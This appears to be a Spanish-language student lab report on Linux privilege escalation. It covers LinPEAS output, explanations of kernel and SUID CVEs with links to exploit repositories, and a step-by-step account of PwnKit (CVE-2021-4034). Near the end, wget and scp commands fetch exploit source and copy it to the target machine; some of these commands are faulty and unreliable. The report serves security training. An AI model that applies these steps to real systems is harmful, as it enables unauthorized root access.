  
\includegraphics[width=0.7\textwidth]{img/image14.png}
  \caption{Continuación del análisis de sockets mostrando permisos 666 y 777.}
\end{figure}

Lo que hace evidente el riesgo en estas capturas es que múltiples sockets 
pertenecientes a servicios administrativos que corren como \texttt{root} 
(tales como cups, dbus, NetworkManager y systemd) cuentan con permisos
que son los 666 (Read/Write) y 777 (Read/Write/Execute), que esto son permisos de 
escritura, lectura y ejecucion, los cuales son peligrosos para ciertos sectores. 

Ademas de que, esta mala práctica de configuración significa que cualquier 
usuario con bajos privilegios dentro de la máquina, como en el caso de
webadmin, este tiene la capacidad de conectarse y enviar 
instrucciones directamente a los daemons de root. 

\newpage

\subsection{Revision de los detalles de las posibles vulnerabilidades que permitan escalar privilegios:}

A partir del registro de exploits arrojado por LinPEAS, se identificó una lista detallada de vulnerabilidades a nivel de kernel a las que el sistema es susceptible. A continuación, se explica teóricamente qué hace cada una de ellas:

\begin{itemize}
  \item \textbf{\texttt{CVE-2014-5207} (\texttt{fuse\_suid})}: Donde en este caso, la vulnerabilidad se encuentra en el sistema de archivos FUSE (Filesystem in Userspace). Lo que hace teóricamente es permitir a un usuario local manipular los espacios de nombres (namespaces) para evadir las restricciones de montaje. Ademas de que, esto permite ejecutar archivos con el bit SUID activado fuera de su entorno restringido, logrando engañar al kernel para obtener una terminal como root.
  
  \textbf{Link:} \url{https://www.exploit-db.com/exploits/34923}

  \item \textbf{\texttt{CVE-2015-1328} (\texttt{overlayfs})}: Este fallo reside en el sistema de archivos OverlayFS. Lo que hace es no verificar correctamente los permisos de seguridad cuando un usuario intenta modificar o crear archivos en las capas superiores del directorio montado. Donde en este caso, un atacante puede aprovechar esto para inyectar un archivo ejecutable con permisos de superusuario (SUID) y luego ejecutarlo para ganar acceso total.
  
  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2015/CVE-2015-1328}

  \item \textbf{\texttt{CVE-2015-8660} (\texttt{overlayfs ovl\_setattr})}: Es otra variante crítica de fallo en OverlayFS, pero apuntando específicamente a la función \texttt{ovl\_setattr}. Lo que hace esta vulnerabilidad es ignorar las comprobaciones de permisos al cambiar los atributos de un archivo. Ademas de que, esto le permite a un usuario sin privilegios alterar archivos críticos del sistema, como cambiarles el propietario a root, para lograr la escalación.

  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2015/CVE-2015-8660}

  \item \textbf{\texttt{CVE-2016-0728} (\texttt{keyring})}: Esta vulnerabilidad se basa en un fallo de tipo \textit{Use-After-Free} (uso después de liberación) en la función de llavero de seguridad (keyring) del kernel de Linux. Lo que hace el atacante es crear y vincular un número masivo de llaves hasta causar un desbordamiento de enteros en el contador de referencias. Donde en este caso, al liberar la memoria y volver a usarla, se puede inyectar código malicioso directamente en el kernel.

  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2016/CVE-2016-0728}

  \item \textbf{\texttt{CVE-2016-2384} (\texttt{usb-midi})}: Este es un fallo de doble liberación de memoria (double-free) en el controlador MIDI USB del kernel. Lo que hace es que, al conectar un dispositivo USB malicioso (o emularlo mediante software), el sistema intenta liberar la misma porción de memoria dos veces. Ademas de que, esto corrompe la gestión de memoria interna, permitiendo a un atacante ejecutar código con privilegios máximos.

  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2016/CVE-2016-2384}

  \item \textbf{\texttt{CVE-2016-5195} (\texttt{dirtycow})}: Una de las vulnerabilidades más famosas. Lo que hace es aprovechar una condición de carrera (race condition) en el mecanismo de \textit{Copy-On-Write} (copia en escritura) de la memoria del kernel. Donde en este caso, un usuario local puede engañar al sistema para escribir datos en archivos que deberían ser estrictamente de solo lectura, como el \texttt{/etc/passwd}. Ademas de que, esto garantiza acceso root casi de inmediato.

  \textbf{Link:}\url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2016/CVE-2016-5195}

  \item \textbf{\texttt{CVE-2021-27365} (\texttt{linux-iscsi})}: Se trata de un desbordamiento de búfer en el subsistema iSCSI del kernel. Lo que hace esta vulnerabilidad es procesar mensajes Netlink manipulados enviados por el atacante, provocando que se escriban datos fuera de los límites asignados en la memoria. Donde en este caso, si se logran sobrescribir los punteros correctos, se consigue la ejecución de código como superusuario.
  
  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2021/CVE-2021-27365}

  \item \textbf{\texttt{CVE-2021-22555} (Netfilter heap out-of-bounds write)}: Este fallo se encuentra en el módulo de Netfilter (el motor detrás de iptables). Lo que hace es permitir que un usuario local con acceso a espacios de nombres de red envíe reglas de firewall alteradas para causar una escritura fuera de los límites de memoria. Ademas de que, esto corrompe las estructuras del kernel y permite eludir todas las protecciones modernas para volverse root.
  
  \textbf{Link:} \url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits/tree/main/2021/CVE-2021-22555}

  \item \textbf{\texttt{CVE-2018-14665} (\texttt{exploit\_x})}: Donde en este caso, el problema no está directamente en el kernel, sino en el servidor gráfico X.Org. Lo que hace el atacante es abusar de los parámetros \texttt{-modulepath} y \texttt{-logfile} al iniciar el servidor X, el cual suele correr con privilegios de root. Ademas de que, esto permite sobrescribir archivos protegidos del sistema o cargar bibliotecas maliciosas para ejecutarlas como administrador.

  \item \textbf{\texttt{CVE-2026-43503} (\texttt{DirtyClone})}: Esta es una vulnerabilidad detectada en la pila de red del kernel, relacionada con los módulos ESP. Lo que hace teóricamente es generar una condición de carrera al momento de clonar procesos mientras se manejan paquetes de red cifrados. Donde en este caso, si el atacante logra sincronizar la falla, puede sobrescribir memoria privilegiada de forma muy similar a DirtyCow.

  \item \textbf{\texttt{CVE-2026-43499} (GhostLock rtmutex UAF)}: Este fallo ocurre en el mecanismo de exclusión mutua en tiempo real (\texttt{rtmutex}) del kernel. Lo que hace es aprovechar una mala gestión cuando se activan los bloqueos de herencia de prioridad (PI futexes). Ademas de que, esto desencadena un error de tipo \textit{Use-After-Free}, donde el atacante puede reasignar un bloque de memoria ya liberado con sus propios datos para tomar el control de la ejecución del sistema.
  
  \item \textbf{\texttt{CVE-2021-4034} (\texttt{PwnKit - pkexec})}: Donde en este caso, la vulnerabilidad reside en el componente \texttt{pkexec} de Polkit, el cual está configurado de fábrica con permisos SUID. Lo que hace este fallo es que el programa no maneja correctamente los parámetros cuando se le llama con una lista de argumentos (\texttt{argv}) completamente vacía. Al intentar leer un argumento inexistente, el binario termina leyendo y procesando la primera variable de entorno. Ademas de que, un atacante puede aprovechar esto introduciendo variables de entorno maliciosas (como \texttt{GCONV\_PATH}) para engañar a \texttt{pkexec} y obligarlo a cargar una biblioteca compartida externa, ejecutando código arbitrario directamente con privilegios de root.
  
  \textbf{Link:} \url{https://github.com/PwnFunction/CVE-2021-4034}

  \item \textbf{\texttt{CVE-2017-0358} (\texttt{ntfs-3g})}: Donde en este caso, la vulnerabilidad se localiza en el binario \texttt{ntfs-3g}, el cual cuenta con el bit SUID activado para permitir a los usuarios montar unidades NTFS. Lo que hace el fallo es no limpiar correctamente el entorno antes de invocar a \texttt{modprobe} para cargar módulos del kernel. Ademas de que, un atacante local puede aprovechar esto manipulando las variables de entorno para engañar al binario y obligarlo a cargar una biblioteca compartida maliciosa, lo que resulta en la ejecución de código arbitrario con privilegios de root.
  
\textbf{Link:} \url{https://github.com/Wangsafz/cve-2017-0358.sh}

\end{itemize}

\textbf{Nota:} Todas las referencias de donde conseguir los exploits, fue conseguido, por medio del siguiente 
repositorio, la cual tiene un recompilado de todas las vulnerabilidades de escalamiento, asi 
como su version del kernel de linux que es vulnerable: 

\url{https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits}


\section{Actividades}

\subsection{Analice la salida generada por la herramienta LinPEAS y responda las siguientes preguntas:}


\begin{enumerate}[label=\alph*.]
    \item \textbf{¿Cuál es el codename del sistema operativo del equipo webserver?}\\
    Donde en este caso, al revisar la sección principal de \textit{System Information}, el escaneo nos arrojó que el codename de la distribución es \textbf{jessie} (correspondiente a Debian GNU/Linux 8.11).
    
    \begin{figure}[H]
      \centering
      
\includegraphics[width=0.5\textwidth]{img/image36.png}
      \caption{Codename del sistema operativo}
    \end{figure}
    

    \item \textbf{¿Cuál es la versión de sudo instalada en el equipo webserver?}\\
    Lo que hace la herramienta es buscar el binario en el sistema, y la salida explícita que nos dio fue \textbf{``sudo Not Found''}. Esto indica que el sistema no cuenta con esta herramienta instalada.
    
    \begin{lstlisting}[style=salidaLinpeas]
    ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d (T1548.003)
    ╚ https://book.hacktricks.wiki/en/linux-hardening/linux-basics/linux-privilege-escalation/index.html#sudo-and-suid
    sudo Not Found
    \end{lstlisting}

    \item \textbf{¿Cuántas vulnerabilidades únicas identificó la herramienta LinPEAS?}\\
    Ademas de que la consola listó 14 coincidencias en el registro de exploits del kernel, al filtrar los CVE repetidos, la herramienta identificó \textbf{11 vulnerabilidades únicas a nivel de kernel}. Sumando a esto las 2 vulnerabilidades críticas encontradas en la sección de binarios SUID (\texttt{pkexec} y \texttt{ntfs-3g}), nos da un total de \textbf{13 vulnerabilidades únicas} de escalación de privilegios reportadas.
    
    \item \textbf{¿Cuáles son las vulnerabilidades que identifica la herramienta LinPEAS?}\\
    La lista de vulnerabilidades únicas identificadas abarca:
    \begin{itemize}
        \item CVE-2014-5207 (\texttt{fuse\_suid})
        \item CVE-2015-1328 (\texttt{overlayfs})
        \item CVE-2015-8660 (\texttt{overlayfs ovl\_setattr})
        \item CVE-2016-0728 (\texttt{keyring})
        \item CVE-2016-2384 (\texttt{usb-midi})
        \item CVE-2016-5195 (\texttt{dirtycow})
        \item CVE-2021-27365 (\texttt{linux-iscsi})
        \item CVE-2021-22555 (Netfilter heap out-of-bounds write)
        \item CVE-2018-14665 (\texttt{exploit\_x})
        \item CVE-2026-43503 (\texttt{DirtyClone})
        \item CVE-2026-43499 (GhostLock rtmutex UAF)
        \item CVE-2021-4034 (\texttt{PwnKit} en \texttt{pkexec})
        \item CVE-2017-0358 (Fallo en \texttt{ntfs-3g})
    \end{itemize}
\end{enumerate}

\subsection{Analice las vulnerabilidades identificadas por la herramienta y determine cual es la vulnerabilidad que permite elevar privilegios, indique el CVE ID correspondiente.}

A partir del análisis de todas las opciones anteriores, determinamos que la vía más estable y directa para lograr comprometer la máquina no era a nivel de kernel, sino explotando una mala configuración en los binarios SUID. 

Donde en este caso, la vulnerabilidad seleccionada que nos permitió elevar privilegios de manera exitosa fue la falla de corrupción de memoria en el componente de autorización de Polkit (\texttt{pkexec}). Ademas de que, el identificador oficial correspondiente a esta vulnerabilidad es el \textbf{CVE-2021-4034}, comúnmente conocida en el ámbito de la seguridad como PwnKit.

Lo que hace pkexc, es que permite al usuario ejecutar comandos como si fuera otro usuario, esto de una manera similar a sudo, no obstante, esto ya son privilegios 
que no tiene normalmente, al iniciar se corre un ciclo que busca procesar los argumentos a 
partir de la posicion 1, si se ejecuta el programa sin 
proporcionarle absolutamente ningún argumento (dejando su arreglo vacío), 
el programa de todas formas intenta leer esa primera posición. 
Como la memoria es contigua, esta lectura fuera de límites (Out-of-Bounds 
read) termina extrayendo la primera variable de entorno en lugar de un 
argumento real.

Para esto, el arreglo que contiene el programa, tienen varios argumentos, donde se tienen las variables 
de entorno, estan apilados uno justo al lado del otro, pero separados 
por un valor nulo, lo que hace que el programa lea la primera variable de entorno,
esto provoca una escritura fuera de límites (Out-of-Bounds write), 
lo que hace que se sobrescriba directamente la primera variable de 
entorno del proceso. A través de estas dos acciones, 
un atacante adquiere la capacidad de inyectar variables de entorno 
catalogadas como ``inseguras'' directamente dentro de un proceso que 
corre con máximos privilegios.

Lo que hace el atacante es forzar un error antes de que el entorno 
sea limpiado por completo, desencadenando la función 
\texttt{g\_printerr} para que imprima un mensaje de alerta en la pantalla. 
Donde en este caso está el truco clave de la escalación, es que al configurar 
previamente una variable de entorno para que el set de caracteres sea 
desconocido o inválido (diferente a UTF\-8), el sistema se ve obligado a 
intentar convertir el texto del error utilizando una función interna 
llamada \texttt{iconv\_open}.

Para lograr realizar esta conversión de caracteres, el sistema busca 
cargar un módulo externo basándose en la variable de entorno insegura 
\texttt{GCONV\_PATH}. Lo que hace el exploit finalmente es crear 
una estructura de carpetas engañosa para inyectar esta variable 
exacta mediante la escritura fuera de límites que vimos antes, 
apuntándola hacia un módulo de conversión falso programado en C 
por el atacante. Ademas de que, cuando el sistema intenta cargar este 
módulo con la única intención de traducir el mensaje de error, en realidad 
termina inicializando y ejecutando el código malicioso del atacante 
(el cual restaura los identificadores UID y GID a 0 y ejecuta una 
terminal \texttt{/bin/sh}), 
otorgando así el control total de la máquina como usuario root.


\subsection{¿Cuál es el nombre de usuario del repositorio que aloja el exploit que permite
explotar la vulnerabilidad de escalación de privilegios?}

El usuario, que permite la vulneracion, es: \textbf{PwnFunction}.

\url{https://github.com/PwnFunction}

\subsection{Escriba el comando necesario para ejecutar el exploit.}

Antes que nada para ejecutar el comando, es necesario descargar los archivos .c y el MakeFile, por medio de nuestra maquina atacante,
estos se descrgan por medio del comando wget: 

\begin{lstlisting}[style=consolaSeguridad]
  wget https://github.com/PwnFunction/CVE-2021-4034/blob/main/pwnkit.c
  wget https://github.com/PwnFunction/CVE-2021-4034/blob/main/conversion-mod.c
  wget https://github.com/PwnFunction/CVE-2021-4034/blob/main/Makefile
\end{lstlisting}


Posteriormente, es necesario pasar los archivos por medio de ssh, 
al equipo que queremos vulenrar, esto por medio del comando scp, con los mismos parametros 
que antes puse:

\begin{lstlisting}[style=consolaSeguridad]
  scp -P 13337 pwnkit.c conversion-mod.c Makefile webadmin@192.168.177.129:/home/webadmin
  scp -P 13337 pwnkit.c conversion-mod.c pwnkit.c webadmin@192.168.177.129:/home/webadmin
  scp -P 13337 pwnkit.c conversion-mod.c conversion-mod.c webadmin@192.168.177.129:/home/webadmin
\end{lstlisting}

\begin{figure}[H]
  \centering
